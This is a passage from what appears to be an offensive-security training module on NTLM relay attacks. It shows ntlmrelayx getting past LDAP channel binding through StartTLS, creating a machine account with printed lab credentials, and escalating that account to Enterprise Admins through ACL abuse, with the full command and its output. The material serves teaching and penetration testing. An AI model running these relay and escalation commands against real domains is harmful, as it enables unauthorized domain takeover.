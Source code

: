 When reading the output of `ntlmrelayx`, we will notice that it states:

” `[*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS`“.

`LDAPS` is required for adding machine accounts; however, the scheme we provided is `ldap://`. In older versions of `ntlmrelayx`, this attack would fail; however, after the [Implementing StartTLS](https://github.com/fortra/impacket/pull/1305) PR, `ntlmrelayx` bypasses `LDAP Channel Binding` via the `StartTLS` mechanism; the blog post [Bypassing LDAP Channel Binding with StartTLS](https://offsec.almond.consulting/bypassing-ldap-channel-binding-with-starttls.html) describes this bypass technique in great detail.

The output also includes the information about the new computer with username `plaintext$` and password `o6@ekK5#rlw2rAe`; having a computer account is useful if we don’t have any domain user. For example, in the following sections, we will perform authentication coercion that will allow us to conduct more advanced attacks and move laterally and horizontally across the domain.

---

### Privileges Escalation via ACLs Abuse

Another attack we could perform over `LDAP` is to escalate the privileges of a user; however, this is only possible if the relayed account has high-privilege permissions in the domain (i.e., add an account to a high-privilege group such as the Domain Admins group or edit the domain object’s DACL). In that case, we can use `ntlmrelayx`’s `--escalate-user` option followed by the computer account we created, `plaintext$`, or any other account we control, to attempt privilege escalation attacks via abusing misconfigured `ACLs/DACLs`. The `-debug` option makes ntlmrelayx verbose by showing debug information:

```
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug

Impacket v0.11.0 - Copyright 2023 Fortra

<SNIP>

[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as INLANEFREIGHT/NPORTS SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[+] User is a member of: [DN: CN=SQL Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL - STATUS: Read - READ TIME: 2023-07-24T20:23:28.703082
    name: SQL Admins
    objectSid: S-1-5-21-1207890233-375443991-2397730614-1153
]
[+] User is a member of: [DN: CN=Domain Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL - STATUS: Read - READ TIME: 2023-07-24T20:23:28.706705
    distinguishedName: CN=Domain Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
    name: Domain Users
    objectSid: S-1-5-21-1207890233-375443991-2397730614-513
]
[+] Permission found: Full Control on CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL; Reason: GENERIC_ALL via CN=SQL Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[+] Performing Group attack
[*] Adding user: plaintext to group Enterprise Admins result: OK
[*] Privilege escalation successful, shutting down...
```
